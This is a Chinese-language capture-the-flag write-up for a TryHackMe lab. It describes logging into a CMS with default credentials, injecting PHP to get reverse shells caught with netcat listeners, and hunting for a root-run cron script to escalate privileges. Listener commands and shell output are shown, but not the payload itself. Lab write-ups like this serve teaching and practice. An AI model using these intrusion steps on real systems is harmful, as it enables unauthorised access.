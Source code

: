 ```robots.txt```显示有一个cms
```
User-agent: *
Disallow: /vbcms
```

打开是一个登陆页面，尝试用```admin:admin```登陆，居然登陆上了。。。

登陆进去是一个页面编辑界面，可以直接改网页源代码，尝试写php发现可以运行，那就简单了，直接写shell。。。

开启一个端口监听，把shell写进首页，访问，触发反弹
```
┌──(root💀kali)-[~/tryhackme/hackerhill]
└─# nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.13.21.169] from (UNKNOWN) [10.10.134.251] 59268
Linux web-serv 4.15.0-135-generic #139-Ubuntu SMP Mon Jan 18 17:38:24 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 10:30:53 up  1:08,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1000(serv1) gid=1000(serv1) groups=1000(serv1),43(utmp)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1000(serv1) gid=1000(serv1) groups=1000(serv1),43(utmp)
$ whoami
serv1

```

根据提示，第一个flag在```/usr/games/fortune```，去到[这个网站](https://ctf.hacker101.com/ctf/flagcheck)兑换到tryhackme需要的flag

然后第二个，第三个按照指示去到```/var/lib/rary```和```/var/www/serv4/index.php```起上面网站兑换指定flag

## 提权
传linpeas.sh，发现```/home/serv3/backups/backup.sh```这个定时任务是用root身份执行的，频率为一分钟一次

查看bash文件权限
```
serv1@web-serv:/tmp$ ls -alh /home/serv3/backups/backup.sh
ls -alh /home/serv3/backups/backup.sh
-r-xr-xr-x 1 serv3 serv3 52 Feb 15  2021 /home/serv3/backups/backup.sh
```

serv1没有权限编辑这个文件，也就是说我们需要横向提权到serv3？


在```/var/www/html/topSecretPrivescMethod```找到一个secret.txt，看文件夹名字是提权方法，但是打开是一串乱码

在```:8002/lesson/1```这个php运行页面，本来可以直接运行php反弹shell，但是因为页面连接了一个谷歌前端框架，我kali不能翻墙，所以不能运行反弹不了shell

于是研究了下怎么在linux下连v2ray，终于找到了[这篇文章](https://zhuanlan.zhihu.com/p/359755946),按照里面的方法fq成功


回到上面那个页面，写入php反弹shell，拿到serv3的shell

```
┌──(root💀kali)-[~/tryhackme/hackhill]
└─# nc -lnvp 4444                                                        1 ⨯
listening on [any] 4444 ...
connect to [10.13.21.169] from (UNKNOWN) [10.10.172.149] 33814
Linux web-serv 4.15.0-135-generic #139-Ubuntu SMP Mon Jan 18 17:38:24 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 14:49:20 up  1:13,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1002(serv3) gid=1002(serv3) groups=1002(serv3)